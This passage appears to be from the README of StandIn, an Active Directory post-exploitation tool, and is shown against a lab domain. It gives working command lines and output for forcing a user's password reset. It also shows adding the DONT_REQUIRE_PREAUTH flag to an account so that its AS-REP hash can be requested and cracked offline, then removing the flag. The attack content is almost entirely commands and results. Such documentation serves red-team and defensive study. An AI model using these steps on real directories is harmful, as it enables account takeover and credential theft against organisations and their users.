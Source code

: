 ```
C:\> StandIn.exe --object "samaccountname=user005" --newpass "Arkh4mW1tch!"

[?] Using DC : m-w16-dc01.main.redhook.local
[?] Object   : CN=User 005
    Path     : LDAP://CN=User 005,OU=Users,OU=OCCULT,DC=main,DC=redhook,DC=local

[+] Object properties
    |_ Owner : MAIN\Domain Admins
    |_ Group : MAIN\Domain Admins

[+] Setting account password
    |_ Success, password set for object
```

### Add/Remove ASREP from object flags

#### Use Case

> *If the operator has write access to a user account, they can modify the user’s `userAccountControl` flags to include `DONT_REQUIRE_PREAUTH`. Doing so allows the operator to request an AS-REP hash for the user which can be cracked offline. This process is very similar to kerberoasting. This action is not destructive, but it relies on the fact that the user has a password which can be cracked in a reasonable timeframe.*

#### Syntax

Add and remove `DONT_REQUIRE_PREAUTH` from the resolved object's `userAccountControl` flags.

```
C:\> StandIn.exe --object "samaccountname=user005" --asrep

[?] Using DC : m-w16-dc01.main.redhook.local
[?] Object   : CN=User 005
    Path     : LDAP://CN=User 005,OU=Users,OU=OCCULT,DC=main,DC=redhook,DC=local

[*] SamAccountName           : user005
    DistinguishedName        : CN=User 005,OU=Users,OU=OCCULT,DC=main,DC=redhook,DC=local
    userAccountControl       : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWD

[+] Updating userAccountControl..
    |_ Success

C:\> StandIn.exe --asrep

[?] Using DC : m-w16-dc01.main.redhook.local

[?] Found 1 object(s) that do not require Kerberos preauthentication..

[*] SamAccountName           : user005
    DistinguishedName        : CN=User 005,OU=Users,OU=OCCULT,DC=main,DC=redhook,DC=local
    userAccountControl       : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWD, DONT_REQUIRE_PREAUTH

C:\> StandIn.exe --object "samaccountname=user005" --asrep --remove

[?] Using DC : m-w16-dc01.main.redhook.local
[?] Object   : CN=User 005
    Path     : LDAP://CN=User 005,OU=Users,OU=OCCULT,DC=main,DC=redhook,DC=local

[*] SamAccountName           : user005
    DistinguishedName        : CN=User 005,OU=Users,OU=OCCULT,DC=main,DC=redhook,DC=local
    userAccountControl       : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWD, DONT_REQUIRE_PREAUTH

[+] Updating userAccountControl..
    |_ Success
```